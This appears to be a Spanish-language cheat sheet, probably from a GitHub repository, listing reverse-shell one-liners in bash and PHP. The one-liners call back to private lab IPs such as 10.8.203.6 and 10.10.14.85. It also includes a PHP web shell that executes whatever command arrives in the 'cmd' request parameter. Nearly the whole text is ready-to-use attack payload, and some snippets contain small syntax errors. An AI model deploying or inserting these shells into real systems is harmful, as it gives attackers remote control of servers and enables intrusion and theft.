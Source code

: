 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```